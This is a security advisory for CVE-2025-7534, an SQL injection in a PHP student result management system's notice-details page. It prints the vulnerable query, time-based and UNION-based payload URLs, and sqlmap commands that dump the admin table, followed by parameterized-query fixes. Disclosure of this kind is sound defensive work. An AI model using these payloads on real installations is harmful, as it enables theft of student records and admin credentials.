


**\[sql-injection] in \[Student Result Management System] <= \[v2.0]**

---

### 👨‍💻 **BUG Author:**

**4m3rr0r**

**CVE-2025-7534**

---

### 📦 **Product Information:**

* **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)
* **Software Link:** [https://phpgurukul.com/student-result-management-system/](https://phpgurukul.com/student-result-management-system/)
* **Affected Version:** <= v2.0
* **BUG Author:** 4m3rr0r

---

### 🛠 **Vulnerability Details**

* **Type:** Time-Based & UNION-Based SQL Injection
* **Affected URL:** `http://localhost/srms/notice-details.php?nid=1`
* **Vulnerable Parameter:** `nid` (GET)
* **Vulnerable File:**

  * **File Name:** `notice-details.php`
  * **Path:** `/srms/notice-details.php`

---

### 🧨 **Vulnerability Type**

* **SQL Injection Vulnerability**
* **CWE ID:** CWE-89: Improper Neutralization of Special Elements used in an SQL Command
* **Severity Level:** CRITICAL
* **CVSS Score:** 9.1 (Base Score)

---

### 🧬 **Root Cause**

The application constructs SQL queries by directly inserting unvalidated user input into SQL statements without using prepared statements or escaping mechanisms. This allows attackers to inject arbitrary SQL commands.

```php
$noticeid = $_GET['nid'];
$sql = "SELECT * from tblnotice where id='$noticeid'";
$query = $dbh->prepare($sql);
$query->execute();
```

---

### ⚠️ **Impact**

* Unauthorized access to all database contents
* Exposure of sensitive student data and admin credentials
* Possible privilege escalation (admin takeover)
* Full database extraction via automated tools (e.g., sqlmap)

---

### 📋 **Description**

1. **Vulnerability Details:**

   * SQL query is dynamically constructed using unsanitized input (`$_GET['nid']`)
   * No validation, escaping, or parameter binding
   * Affects both UNION and time-based SQLi techniques

2. **Attack Vectors:**

   * Blind SQL injection with time delays (`SLEEP()`)
   * UNION-based injection to extract DB structure and contents

3. **Attack Payload Examples:**

   * Time-Based Injection:

     ```
     http://localhost/srms/notice-details.php?nid=1' AND SLEEP(5)-- -
     ```
   * UNION-Based Injection:

     ```
     http://localhost/srms/notice-details.php?nid=1' UNION ALL SELECT NULL,CONCAT(0x7161,USER(),0x7171),NULL,NULL-- -
     ```

---

### 🔬 **Proof of Concept**

#### ✅ Confirmed Using `sqlmap`

```bash
sqlmap -u "http://localhost/srms/notice-details.php?nid=1" --dbs
```

 

Output:

* Injection Type: Time-based and UNION-based
* Database Extracted: `srms`
* Admin table dumped via:


```bash
sqlmap -u "http://localhost/srms/notice-details.php?nid=1" -D srms -T admin --dump
```

 

---

### 🛡 **Suggested Remediation**

* Use **parameterized queries** (PDO with bound parameters)
* Validate and sanitize all user input
* Avoid dynamic SQL wherever possible
* Example secure code:

```php
$noticeid = $_GET['nid'];
$sql = "SELECT * FROM tblnotice WHERE id = :nid";
$query = $dbh->prepare($sql);
$query->bindParam(':nid', $noticeid, PDO::PARAM_INT);
$query->execute();
```

---

### 🔐 **Security Recommendations**

* Implement the **Principle of Least Privilege**
* Store passwords hashed and salted
* Conduct regular security audits
* Add a **Web Application Firewall (WAF)**
* Consider using modern PHP frameworks (Laravel, Symfony)

---

### 📚 **References**

* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)

---

### 🕐 **Mitigation Timeline**

| Phase      | Action                         |
| ---------- | ------------------------------ |
| Immediate  | Use prepared statements        |
| Short-term | Add input validation           |
| Long-term  | Adopt ORM (e.g., Eloquent ORM) |

---
